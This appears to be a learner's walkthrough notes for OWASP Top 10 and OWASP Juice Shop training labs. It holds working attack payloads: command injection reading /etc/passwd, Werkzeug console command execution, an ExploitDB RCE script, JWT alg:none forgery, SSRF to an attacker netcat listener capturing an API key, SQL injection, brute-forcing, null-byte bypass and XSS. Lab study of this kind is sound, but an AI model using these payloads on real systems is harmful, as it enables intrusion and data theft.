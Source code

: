 ### OWASP TOP 10

##### Notes 

- after getting hands on `filename.db` file we can open using `$ sqlite3 filename.db` and once the prompt pops up we can do `.tables` to show all tables `PRAGMA table_info(table_name);`       then to dump all data `SELECT * FROM table_name;` and this will give us access to all sensitive data like password hashes, credit card numbers etc.
---

- command injection in `cowsay server` textbox, we can put as `$(ls)` ,`$(whoami)` 
> 	`$(cat /etc/os-release)` - this tells us what version OS is running
> 	`$(cat /etc/passwd)` - this tells us what the user's shell is set as 

---

- Security Misconfiguration in website, we can access the python shell called `Werkzeug console` which is usually placed in web app for debug measures in the debug stage and was forgotten by devs to remove it after debugging and deployment was done.
>	we access the console by `URL/console` and we get the shell 
>	to execute commands we run this on shell
>	`import os; print(os.popen("ls -l").read())` and we can run any command and read contents of files and reveal source code etc.

---
- opening the link we see a CSE online book store vulnerable web app, so head on to exploitDB and search `online book stores` and we can see a `unauthenticated remote code execution` exploit and we download the python script and run it as 
	`$ python3 47887.py URL` - this gives us RCE on a shell and we do `cat /opt/flag.txt` and obtain the flag.
---
- logic flaw in authentication mechanism - if an `admin` user already exists, we have the register option then we can create a ` admin` user with `preceding space` and still gain access to sensitive privileged admin data.
---
- **JWT auth vulnerability** - within the three parts of `Header`,`Payload` & `Signature`, remove the `Signature` part and in `Header` change the key value pair as `alg:none` which says it wont do data integrity check using any algorithm and also change key value pair `username:admin` and update this JWT as a cookie and reload and we get the flag.
---
- **SSRF - Server Side Request Forgery** 
	in URL change the `server=` parameter to our attackbox IP and set a netcat listener by doing 
	`$ nc -lvp 8087` and then put URL 
	`http://10.10.40.18:8087/download?server=10.17.94.67&id=75482342` 
	by doing so we intercept an API key which is our flag here.
	*Going the extra mile:* - accessing the admin panel which says access is only for `local host` 
	so the SSRF will be
	`http://10.10.40.18:8087/download?server=http://127.0.0.1:8087/admin%23&id=75482342`
	here `127.0.0.1` represents the localhost 
	>I figured out that you can use a method similar to SQL injection to break up the server and id in the link (obfuscation). Some forums called it `“escaping the # (hash)”`. To learn more about this read [**here**](https://www.w3schools.com/tags/ref_urlencode.asp?_sm_au_=iVVDMg0TSmrMV6Dm). To break up the server and id we will encode the url’s #, by changing it to `%23`.
	>FLAG - `thm{c4n_i_haz_flagz_plz?}`
---
## OWASP Juice Shop

1. <u>SQL Injection</u>
	username : `' or 1=1--` 
	pass : `blah` - pass doesnt matter
	then
	username : `bender@juice-sh.op'--` 
	pass : `blah` 
---
2. **Bruteforce**:
	bruteforce the administrator password using sniper attack in burpsuite
	*first capture login request*
	then right click and send to `intruder` and then in `positions` tab click on `clear §` button and in password field place `§§` as we will be using that as payload, now we will use the `best1050.txt` wordlist from `/usr/share/wordlists/SecLists/Passwords/Common-Credentials/best1050.txt` , we go to payload tab and load it and start the `sniper attack` and we know it is successful when we get a `200 HTTP Code` 
	password is `admin123`  
---
3. **Password Reset exploit** :
	from prev task we know that a user with `jim@juice-sh.op` had given a review and we will reset his password by exploiting the security question, we know `Jim` has something to do with `Startrek` so search in google `Jim star trek` and look for `eldest sibling middle name` which is `Samuel` and reset password and we get flag
---
4.  **Access confidential document**
	about us &rarr; hover over boring terms of use link &rarr; takes to `URL/ftp/legal.md` and downloads legal.md &rarr; change to just `URL/ftp` &rarr; we get confidential files not intended to be accessed. 

	we go to `URL/ftp` and try to download `package.json.bak` but it throws a `403` error saying only `.md` and `.pdf` files can be downloaded but we'll work around using `character bypass` called `Poison Null Byte`.
		poison null byte looks like - `%00` and its actually a `NULL Terminator` and the string tells the server to terminate at that point, nulling the rest of the string.
		so now when put to use, we have to `URL encode` and download through URL 
		`URL/ftp/package.json.bak%2500.md` 
		Note - `%00` when URL encoded is `%2500`
---
5. **XSS/ Cross-Site Scripting attacks**
	- *DOM XSS* :
		first we perform `DOM XSS` by inserting in search bar `<iframe src="javascript:alert('xss')">` 
		this is also called cross-frame scripting .
	- *Persistent XSS* :
		login to admin acc -> Privacy & Security -> Last Login IP -> it will be `10.x.x.x` -> now turn intercept on -> capture logout request and add header `True-Client-IP`: `<iframe src="javascript:alert(`xss`)">` -> now while logging back in to admin acc and navigating to Last Login IP, we can see the XSS alert.
		>Note: The _True-Client-IP_  header is similar to the _X-Forwarded-For_ header, both tell the server or proxy what the IP of the client is. Due to there being no sanitation in the header 
		>we are able to perform an XSS attack.

	- *Reflected XSS* :
		login as admin with email `admin@juice-sh.op` and pass `admin123` -> go to order history -> click on truck symbol -> `http://10.10.224.224/#/track-result?id=5267-f73dcd000abcc353` -> now insert XSS payload in `id parameter` as follows :
		>`http://10.10.224.224/#/track-result?id=_<iframe src="javascript:alert(`xss`)">`
		after submitting URL, refresh page and we get an alert saying `xss`

>		Why does it work?
>		The server will have a lookup table or database (depending on the type of server) for each tracking ID. As the 'id' parameter is not sanitised before it is sent to the server, we are able to perform an XSS attack.
---
